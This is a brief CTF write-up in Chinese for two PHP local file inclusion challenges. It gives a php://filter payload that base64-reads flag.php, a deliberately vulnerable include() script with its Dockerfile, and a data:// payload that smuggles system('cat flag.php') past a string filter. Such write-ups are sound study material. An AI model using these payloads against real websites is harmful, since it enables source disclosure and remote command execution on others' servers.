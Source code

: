 # LFI1

```php
// php伪协议读取文件内容
php://filter/read=convert.base64-encode/resource=flag.php
```

服务器返回`PD9waHANCg0KZWNobyAiZmxhZ+WcqOi/me+8jOS9huaYr+S9oOeci+S4jeWIsO+8jOWTiOWTiOWTiO+8ge+8ge+8gSI7DQokZmxhZz0iZmxhZ3tlMDU2MjE0OS1iNTU2LTQ2MTAtYWM1OC01NjQzMjk5ZGY0YWR9IjsNCg==`

base64解码即可`echo "flag在这，但是你看不到，哈哈哈！！！";
$flag="flag{e0562149-b556-4610-ac58-5643299df4ad}";`

# LFI2

```do
FROM php:8-apache-buster

COPY app /var/www/html

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini && \
    sed -i 's/allow_url_include = Off/allow_url_include = On/g' /usr/local/etc/php/php.ini

RUN chown root /var/www/html && \
    chgrp root /var/www/html && \
    chmod -R 555 /var/www/html
```

```php
// index.php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

```
file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
# PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
```
